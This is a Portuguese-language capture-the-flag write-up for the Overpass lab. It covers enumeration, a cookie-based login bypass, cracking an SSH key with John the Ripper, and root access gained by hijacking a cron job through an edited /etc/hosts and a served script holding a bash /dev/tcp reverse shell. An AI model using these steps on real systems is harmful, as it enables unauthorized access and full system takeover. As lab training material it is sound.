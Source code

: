 # _**Overpass CTF**_
![](over.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Também vamos fazer um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Encontramos diversos diretórios dos quais podemos explorar  
Vamos começar  

Primeiro, <mark>/aboutus</mark>  
Temos algumas informações sobre **Overpass**  

![](aboutus.jpg)


Segundo, <mark>css</mark>  
Temos dois arquivos de código, mas não parecem ser tão relevantes  

![](css.jpg)

Terceiro, <mark>/downloads</mark>  
Temos o binário de **Overpass** para diferens sistemas  
E também um link para download da linguagem Golang  

![](downloads.jpg)

Quarto, temos <mark>/img</mark>  
Temos uma imagem .jpg, e outros dois arquivos de imagens
Vamos realizar download da .jpg e tentar com <mark>steghide</marK>, extrair algo  
>```bash
> wget [ip_address]/img/jose-fontano-pZld9PiPDno-unsplash.jpg
> ```
>```bash
> steghide extract -sf jose-fontano-pZld9PiPDno-unsplash.jpg
> ```
Não obtemos nenhum resultado infelizmente

## _**Ganhando acesso**_

Vamos continuar  
Temos por fim, o diretório <mark>/admin</mark>  

![](admin.jpg)

Aqui, o que podemos fazer é um ataque de força bruta com a ferramenta <mark>hydra</mark> e _username_ jose
Porém, na dica da primeira flag, não é preciso  
Devemos buscar por OWASP top 10  
No ano de 2020, o Nº1 da OWASP era BAC (_broken access control_)  
Existem algumas maneiras de se explorar:  
* Escalação de privilégios horizontal
* Escalação de privilégios vertical
* Manipulação de _tokens_
* Forçar métodos HTTP ou parâmetros ocultos

Buscando mais informações na Internet sobre BAC, temos:  
"_Explorar Broken Access Control (BAC) envolve identificar falhas nas restrições de acesso que permitem um usuário acessar recursos ou ações que não deveria_"  
Vamos tentar _**manipulação de tokens**_, mais especificamente, _cookies_  
Usando _cookie editor_ no Firefox, criamos um com nome _**SessionToken**_ e descrição qualquer  
Adicionamos ao site e damos _refresh_ na página  

![](login_bypass.jpg)

Sucesso!!!
Temos uma chave RSA para login SSH  
Vamos copiar para um arquivo e quebrá-la com <mark>John</mark>
> ```bash
> echo '[chave_rsa]' > id_rsa
> ```
> ```bash
> ssh2john id_rsa > rsa.hash
> ```
> ```bash
> john -w=../wordlists/rockyou.txt rsa.hash
> ```
![](john.jpg)

E temos resultado!!!  
Agora, vamos realizar login via ssh
> ```bash
> chmod 600 id_rsa
> ```
> ```bash
> ssh -i id_rsa james@[ip_address]
> ```
![](ssh.jpg)

Login com sucesso  
Um simples ```cat``` em _users.txt_ e temos nossa primeira flag!

## _**Escalando privilégios**_
Para escalarmos privilégios, vamos começar com o comando ```sudo -l``` (segundo a dica)  
Acabou por não dar certo, precisamos da senha de _james_  
Vamos tentar de outra forma, com LinPEAS
> ```bash
> cd ../linpeas
> ```
> ```bash
> python3 -m http.server 8080
> ```
> ```bash
> wget [ip_address]:8080/linpeas.sh
> ```

Após, vamos dar permissão com ```chmod +x linpeas.sh``` e executar  
Após algum tempo analisando os resultados, temos:
* <mark>/etc/hosts</mark> é vulenrável por podermos escrever ali
* <mark>temos um cronjob executando o comando curl</mark> com permissões _root_ em overpass.thm/downloads/src/buildscript.sh | bash

![](etc_hosts.jpg)

![](cron_job.jpg)

O que podemos fazer:
* Primeiro, criar um diretório igual ao cronjob  
* Segundo, ligar um netcat e também um _python server_ com python3 -m http.server [port]
* Terceiro, no diretório criado, adicionar um arquivo _buildscript.sh_ com [bash -i >& /dev/tcp/[ip_address]/[port] 0>&1](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* Quarto, damos permissão de execução com ```chmod```
* Quinto, vamos alterar o arquivo <mark>/etc/hosts</mark>, especificamente, _overpass.thm_ para o nosso endereço IP, assim, quando ```curl``` for executado, buscará pelo nosso arquivo .sh

![](changes.jpg)

Após algum tempo, temos _root_  

![](root.jpg)

E assim, obtemos a segunda flag
